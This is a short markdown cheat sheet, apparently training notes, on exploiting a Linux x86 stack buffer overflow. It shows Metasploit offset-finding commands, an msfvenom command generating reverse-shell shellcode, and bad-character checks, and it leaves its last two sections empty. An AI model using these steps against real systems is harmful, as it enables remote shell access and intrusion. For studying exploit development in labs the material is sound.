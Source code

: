 # buffer overflow Linux x86

## Take control EIP

### Determine the offset

- Get rough estimate offset
```shell
$(python -c 'print("A"*1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

- Calculate offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset
```shell
$(python -c "print 'A' * 1000 + 'B' * 4")
```

## Determine length shellcode

- Generate shellcode using `msfvenom`

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

## Identification bad characters

```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a"
```
```shell
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

## Generating shellcode

## Identification return address

